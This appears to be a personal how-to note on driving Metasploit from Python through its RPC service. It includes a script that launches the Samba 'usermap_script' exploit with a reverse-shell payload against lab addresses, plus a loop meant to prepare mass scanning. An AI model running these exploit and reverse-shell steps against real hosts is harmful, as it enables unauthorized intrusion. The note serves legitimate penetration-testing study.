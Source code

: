 ```yaml
---
title: Metasploit scripting and more
created: '2024-03-31T04:25:36.000Z'
modified: '2024-05-30T06:21:58.417Z'
---
```


# Metasploit scripting and more

[metasploit-framework]() is a ruby gem.

---

https://www.infosecmatter.com/metasploit-module-library/

https://rubyfu.net/module-0x5-or-exploitation-kung-fu/metasploit/auxiliary-module

---

[mad-metasploit](https://github.com/hahwul/mad-metasploit) custom metasploit scripts

---

[metasploit unleashed](https://www.offsec.com/metasploit-unleashed/)

[official metasploit documentation](https://docs.metasploit.com/)

---

metasploit has enabled ssl by default. http will not work.

install package:

```bash
pip3 install pymetasploit3
```

launch metasploit background rpc service:
```bash
# get help
msfrpcd -h
# start background service
msfrpcd -P lazero
# or if you want foreground service
msfrpcd -P lazero -f
```


run script:

```python
from pymetasploit3.msfrpc import MsfRpcClient
import os

PWD = "lazero"

custom_module_path = "custom_msf_module"
assert os.path.exists(custom_module_path), (
    "Custom module path not found at: '%s'" % custom_module_path
)

# write custom python modules with:
# https://docs.metasploit.com/docs/development/developing-modules/external-modules/writing-external-python-modules.html


client = MsfRpcClient(
    password=PWD, ssl=True
)  # requires ssl by default. otherwise won't work

# the module structure must be identical to the one at , otherwise it will not load.
client.core.addmodulepath(os.path.abspath(custom_module_path))

exploit_id = "multi/samba/usermap_script"
exp_mod = client.modules.use("exploit", exploit_id)

RHOST = "172.16.194.172"
LHOST = "172.16.194.163"

exp_mod.runoptions["RHOST"] = RHOST  # this host is not running.
exp_mod.runoptions["PAYLOAD"] = "cmd/unix/reverse"
exp_mod.runoptions["LHOST"] = LHOST

msf_console = (
    client.consoles.console()
)  # you can manually read/write instead of using below method.
# timeout: 301 seconds.
exploit_run_output = msf_console.run_module_with_output(exp_mod)  # str
print(exploit_run_output)  # now have output. but still it is not streaming.
# you may want to overwrite the original implementation. the data is actually produced step by step.

run_output_file = "samba_usermap_script_output.log"
with open(run_output_file, "w+") as f:
    f.write(exploit_run_output)
print("[metasploit]", "output file saved at:", run_output_file)
# thank you very much.

```

---

To do mass scanning, first we need to obtain the default RPORT for each exploit.

```python
module_types = ['exploits','auxiliary', "encoders", "nops", "payloads", 'post']

for mt_plural in module_types:
    module_type = mt_plural.rstrip('s')
    for name in all_module_names:
        mod = client.modules.use(module_type, name)
        # get default RPORT
        default_rport = mod.runoptions.get("RPORT", None)
```
